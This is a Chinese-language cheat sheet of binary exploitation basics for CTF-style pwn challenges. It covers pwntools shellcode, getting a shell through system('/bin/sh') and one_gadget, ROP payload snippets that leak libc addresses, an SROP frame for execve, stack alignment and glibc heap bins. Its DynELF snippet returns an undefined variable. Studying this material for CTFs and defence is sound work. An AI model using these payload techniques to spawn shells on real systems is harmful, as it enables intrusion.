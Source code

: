 # 常用基础知识

## 0x001-获取系统权限方式

### 编写shellcode

使用pwntools生成shellcode

```
context(arch='amd64', os='linux')
context(arch='i386', os='linux')

shellcode = asm(shellcraft.sh())
```

### 执行命令

通过控制程序执行流程，替换相关函数地址为system函数地址，并利用程序中存在的、泄露的或输入的相关字符串，获取系统权限。

1. system("/bin/sh")
2. system("sh")
3. system("$0")

### 一句话getshell

one_gadget是指在libc库中存在直接执行execve("/bin/sh", 0, 0)指令的地址，可通过搜索获取其偏移，然后直接调用。

![](1.png)

### Linux系统调用syscall和int 0x80

系统调用常见函数(64位系统)

|  系统调用号  |  函数  |
|  :----:  | :----:  |
|  0  |  read(fd, buf, size)  |
|  1  |  write(fd, buf, size)  |
|  15  |  rt_sigreturn  |
|  59  |  execve(cmd, 0, 0)  |

https://blog.csdn.net/sinat_26227857/article/details/44244433

```
rax 系统调用号
rdi 参数1
rsi 参数2
rdx 参数3
```

## 0x002-敏感函数

|  敏感函数  |  结束标志  |
|  :----:  | :----:  |
|  printf  |  \x00  |
|  scanf  |  -  |
|  puts  |  -  |
|  gets  |  -  |
|  read  |  -  |
|  write  |  -  |
|  strcpy  |  \x00  |
|  strcmp  |  \x00  |
|  strncmp  |  比较长度为0则结果为0  |
|  strlen  |  \x00  |

### 函数调用方式

64位系统参数传递规则：

> 当参数少于7个时，参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。

> 当参数大于等于7个时，前6个与前面一样，之后的依次从右向左放入栈中（同32位）。

在溢出后，如果调用的是函数的plt地址或者got地址，则需要在栈中存放返回地址，栈中的数据格式如下：
```
system_plt + 返回地址 + 参数
```

如果程序中有直接call system地方，则不需要返回地址，可以直接在栈中放参数，栈中的数据格式如下：
```
call_system + 参数
```

## 0x003-泄露libc地址

### DynELF

```
def leak(addr):
    payload = b"A" * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
    p.sendline(payload)
    result_addr = p.recv(4)
    return return_addr

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
```

### LibcSearcher

```
payload = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
p.sendline(payload)
gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

## 0x004-构造SROP

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr
```

https://www.wangan.com/docs/1081

## 0x005-栈对齐

在ubuntu18以上的版本，64位程序中如果调用system("/bin/sh")，则需要考虑堆栈平衡问题。

因为在ubuntu18以上的版本，64位的程序中调用system函数时，有如下指令

![](2.png)

> movaps : 该指令必须16字节对齐，说明 **$rsp+0x40** 处的地址值必须是16的倍数

那么就需要在调用call system时，保证 **$rsp+0x40** 处的地址值是16的倍数。

## 0x006-堆分配中的bins

### fastbins

fastbins为单向链表，采用LIFO（后进先出）的方式。

### unsortedbin

来源：
1. 当一个较大的 **chunk** 被分割成两半后，如果剩下的部分大就会被放到 **unsortedbin** 中。
2. 释放一个不属于 **fastbin** 的 **chunk**，并且该 **chunk** 不和 **top chunk** 紧邻时，该 **chunk** 会被首先放到 **unsortedbin** 中。
3. 当进行 malloc_consolidate 时，如果不是和 **top chunk** 紧邻的话，可能会把合并后的 **chunk** 放到 **unsortedbin** 中。

使用：
1. **unsortedbin** 在使用的过程中，采用的遍历顺序是FIFO，即插入的时候插入到 **unsortedbin** 的头部，取出的时候从链表尾获取。
2. 在程序 malloc 时，如果在 **fastbin、smallbin** 中找不到对应大小的 **chunk**，就会尝试从 **unsortedbin** 中寻找 **chunk**。如果取出来的 **chunk** 大小刚好满足，就会直接返回给用户，否则就会把多余的 **chunk** 分别插入到对应的 **bin** 中。

**unsortedbin** 有一个特性，就是如果 **unsortedbin** 只有一个bin ，它的 **fd** 和 **bk** 指针会指向同一个地址（ **unsortedbin** 链表的头部），这个地址相对 **libc** 固定偏移 **0x3c4b78** ，所以得到这个 **fd** 的值，然后减去固定偏移，即可得到 **libc** 的基地址。

### smallbins

### largebins